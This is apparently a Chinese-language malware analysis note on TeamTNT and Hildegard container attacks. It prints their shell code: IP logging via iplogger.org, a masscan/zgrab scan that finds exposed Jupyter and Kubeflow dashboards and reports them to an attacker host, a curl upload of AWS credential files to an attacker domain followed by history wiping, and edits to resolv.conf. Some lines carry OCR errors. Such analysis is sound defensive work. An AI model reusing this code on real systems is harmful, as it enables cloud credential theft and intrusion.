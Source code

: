 # TeamTNT

## 特征

1. 在构造恶意Docker镜像时会使用TNTfeatB0rg窃取AWS凭据，恶意软件部分代码通过Base64编码嵌入到system函数调用.

2. 在Docker镜像中还使用了https://iplogger.org/网站服务，以记录受害者主机的IP地址，然后再通过自托管的地址将其记录.

```bash
#!/bin/bash
curl -Lk https://iplogger.org/个人地址 -o /dev/null
sleep 3
curl -Lk https://IP地址//SATW/ip.php -o /dev/null

```

此Docker镜像中还包含一个tornado.sh脚本，该脚本通过Masscan和Zgarb工具侦察目标IP地址范围和提供的端口，如果匹配到"Home Page - Select or create a notebook"、"Kubeflow Central Dashboard"、"Jupyter Lab"、"JupyterLab"关键字则会通过jq过滤掉其匹配的IP地址信息（如代码清单1.51所示），然后发送到可控主机上.

```bash
rndstr=$(head /dev/urandom | tr -dc a-z | head -c 6 ; echo '')
//将匹配的IP地址添加到rndstr数组
if [ "$T_PORT" =  "8888" ]; then
eval "$rndstr"="'$(masscan $T_RANGE -p$T_PORT --rate=$S_RATE | awk '{print $6}' | zgrab --senders 200 --port $T_PORT --http='/tree' --output-file=- 2>/dev/null | grep -E "Home Page - Select or create a notebook/Kubeflow Central Dashboard|Jupyter Lab|JupyterLab' l jg-r .ip)'"
//向网页地址/tree路径发送请求
else
eval "$rndstr"="'$(masscan $T_RANGE -p$T_PORT --rate=$S_RATE | awk '{print $6}' | zgrab --senders 200 --port $T_PORT --http='/' --output-file=- 2>/dev/null | grep -E "Home Page - Select or create a notebook/Kubeflow Central Dashboard|Jupyter Lab|JupyterLab' l jg-r .ip)'"
//向网页根路径发送请求
fi

for IP_ADDR in ${!rndstr}
do

if [ "$T_PORT" = "443" ]; then
TARGET="https://"$IP_ADDR
else
TARGET="http://"$IP_ADDR:$T_PORT
fi
echo '##################################################'
curl -sLk http://IP地址/SATW/res.php?vuln=$TARGET -o /dev/null
//将数据发送到可控主机
echo $TARGET
done;
}
```

3. 蠕虫会通过几行代码窃取AWS的凭证文件~/.aws/credentials和配置文件~/.aws/config.

```bash
if [ -f /root/.aws/credentials ]; then
echo "FOUND : /root/.aws/credentials"
curl -F "userfile=@/root/.aws/credentials" http://域名/thx/for/your/key/index.php
//发送AWS凭证到攻击者服务器
curl -F "userfile=@/root/.aws/config" http://域名/thx/for/your/key/index.php
//发送AWS配置文件到攻击者服务器
history -c
fi

if [ -f /home/*/.aws/credentials ]; then
echo "FOUND : /home/*/.aws/credentials"
curl -F "userfile=@/home/jovyan/.aws/credentials" http://域名/thx/for/your/key/index.php
curl -F "userfile=@/home/jovyan/.aws/config" http://域名/thx/forlyour/key/index.php
history -c
fi

rm -f $0
```

4. Hildegard恶意软件使用开源项目ziggystartux构建的IRC代理，然后通过修改系统DNS解析为谷歌的DNS服务器来避免被DNS监控工具检测到.

```bash
cat /etc/resolv.conf 2>/dev/null | grep 'nameserver 8.8.4.4' 2>/dev/null 1>/dev/null || echo 'nameserver 8.8.4.4' >> /etc/resolv.conf
//修改DNS解析为8.8.4.4
cat /etc/resolv.conf 2>/dev/null | grep 'nameserver 8.8.8.8' 2>/dev/null 1>/dev/null || echo 'nameserver 8.8.8.8' >> /etc/resolv.conf
//修改DNS解析为8.8.8.8
```
